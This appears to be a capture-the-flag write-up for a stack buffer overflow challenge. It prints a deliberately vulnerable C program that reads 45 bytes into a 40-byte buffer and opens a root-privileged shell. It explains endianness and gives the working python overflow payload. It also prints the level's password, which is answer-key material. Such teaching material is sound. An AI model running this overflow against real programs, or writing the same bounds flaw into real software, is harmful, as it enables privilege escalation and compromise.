 ```yaml
---
custom_edit_url: null
sidebar_position: 1
---
```


## Source code
```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>

int main()
{

  int var;
  int check = 0x04030201;
  char buf[40];

  fgets(buf,45,stdin);

  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);

  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");

  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
The program first sets up a `check` variable with the value `0x04030201`.
The program then sets up a buffer of 40 bytes.
It then uses the `fgets` to take user input.
## fgets()
```c
char *fgets(char *s, int size, FILE *stream);
```
As we can see it takes 3 arguments.
	- The first argument is the location where the input is supposed to be read to which is the buffer in our case.
	- The second argument is the maximum number of bytes to be read being 45.
	- The third argument is where the data us read from which is the STDIN in our case.

Lastly it has two conditional statements:
	- The first conditional executes if we replace the original value of the `check` variable with anything other than `0xdeadbeef`.
	- The second conditional executes if we replace the original value of the `check` variable with `0xdeadbeef`.

Let's provide 40 `a` and 4 `b` characters as input.
```
$ python -c 'print "a"*40 + "b"*4' | ./ch13

[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[check] 0x62626262

You are on the right way!
```
We can see that `check` was set to `bbbb` which is `0x62626262` in hexadecimal which caused first conditional statement to be executed.
## Stack
```
+---------------+ 
|  61 61 61 61  | <====== buffer (40 bytes)
|  61 61 61 61  | 
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
+---------------+
|  62 62 62 62  | <====== check
+---------------+
```
We want to set the `check` variable to `0xdeadbeef`. However before we do that we need to understand the concept of endianness.
## Big endianness
```
+--------+--------+--------+--------+
| 0x1337 | 0x1338 | 0x1339 | 0x1340 |
+--------+--------+--------+--------+
|   de   |   ad   |   be   |   ef   |
+--------+--------+--------+--------+
```
The LSB is stored in the high memory address (`0x1340`) while the MSB is stored in the low memory address (`0x1337`).

This is the format in which humans write numbers.
## Little endianness
```
+--------+--------+--------+--------+
| 0x1337 | 0x1338 | 0x1339 | 0x1340 |
+--------+--------+--------+--------+
|   ef   |   be   |   ad   |   de   |
+--------+--------+--------+--------+
```
The LSB is stored in the low memory address (`0x1337`) while the MSB is stored in the high memory address (`0x1340`).

This is the format in which machines store data. This is the relevant format for our level.

Now we are ready to craft our exploit.
## Exploit
```
$ python -c 'print "a"*40 + "\xef\xbe\xad\xde"' | ./ch13

[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
Shell closed! Bye.
```
So the shell is closing immediately. In order to complete the exploit we need the shell to stay open.

We can use the `cat` command to keep the shell open.
```
$ (python -c 'print "a"*40 + "\xef\xbe\xad\xde"' ; cat) | ./ch13

[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
```
We know that the password is in the `HOME/.passwd` file. All we have to do now is to `cat` it.
```
cat .passwd
1w4ntm0r3pr0np1s
```
## Password
```
1w4ntm0r3pr0np1s
```
